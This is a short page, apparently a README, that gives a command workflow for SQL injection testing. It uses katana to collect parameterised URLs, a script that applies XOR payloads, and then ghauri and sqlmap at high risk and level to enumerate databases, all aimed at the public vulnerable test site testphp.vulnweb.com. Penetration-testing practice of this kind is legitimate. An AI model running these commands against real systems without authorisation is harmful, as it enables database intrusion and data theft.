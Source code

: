 ### Params find

```
katana -u http://testphp.vulnweb.com -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | sed 's/=.*/=/' | sort -u | tee testphp.vulnweb.com.output.txt
```

### SQLi detect

```
sudo python3 ./lostsec.py -l testphp.vulnweb.com.output.txt -p payloads/xor.txt -t 5
```

### Ghauri

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --dbs --batch --confirm --hostname --current-db
```

### Sqlmap

```
sqlmap -u 'http://testphp.vulnweb.com/artists.php?artist=*' --batch --dbs --threads=5 --random-agent --risk=3 --level=5 --tamper=space2comment -v 3
```
